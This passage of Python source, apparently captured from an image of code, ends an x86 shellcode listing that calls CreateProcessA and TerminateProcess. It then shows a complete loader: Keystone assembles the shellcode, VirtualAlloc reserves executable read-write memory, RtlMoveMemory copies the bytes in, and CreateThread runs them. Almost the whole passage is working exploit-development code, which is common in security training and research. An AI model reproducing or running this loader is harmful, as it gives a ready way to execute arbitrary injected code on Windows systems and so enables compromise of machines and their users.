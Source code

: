 ```python
    "   call  dword ptr [ebp+0x18]      ;"  # Call CreateProcessA
    " exit_properly:                     "  # Clean exit routine
    "   xor   ecx, ecx                  ;"  # Clear ECX for exit code
    "   push  ecx                       ;"  # uExitCode = 0
    "   push  0xffffffff                ;"  # hProcess = -1 (current process)
    "   call  dword ptr [ebp+0x10]      ;"  # Call TerminateProcess
)

ks = Ks(KS_ARCH_X86, KS_MODE_32)        # Initialize Keystone assembler for x86 32-bit
encoding, count = ks.asm(CODE)          # Assemble the shellcode into machine code
print("Encoded %d instructions..." % count)  # Display count of assembled instructions

sh = b""                                # Initialize empty binary string
for e in encoding:                      # Loop through each byte of encoded shellcode
    sh += struct.pack("B", e)           # Pack byte into binary string
shellcode = bytearray(sh)               # Convert to bytearray for memory operations

ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),                    # Allocate memory at NULL (OS chooses address)
                                          ctypes.c_int(len(shellcode)),        # Size of allocated memory equals shellcode size
                                          ctypes.c_int(0x3000),                # MEM_COMMIT | MEM_RESERVE 
                                          ctypes.c_int(0x40))                  # PAGE_EXECUTE_READWRITE protection

if not ptr:                             # Check if memory allocation failed
    raise Exception("VirtualAlloc failed")  # Raise exception if allocation failed

buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)  # Create C-compatible buffer from shellcode

ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),        # Copy shellcode to allocated memory
                                     buf,                       # Source buffer
                                     ctypes.c_int(len(shellcode)))  # Length to copy

print("Shellcode located at address %s" % hex(ptr))  # Display shellcode memory address
input("...ENTER TO EXECUTE SHELLCODE...")  # Wait for user confirmation

ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),        # Default security attributes
                                         ctypes.c_int(0),        # Default stack size
                                         ctypes.c_int(ptr),      # Thread start address (shellcode)
                                         ctypes.c_int(0),        # No thread parameters
                                         ctypes.c_int(0),        # Run thread immediately
                                         ctypes.pointer(ctypes.c_int(0)))  # Don't return thread identifier

ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht), ctypes.c_int(-1))  # Wait indefinitely for thread to finish
```
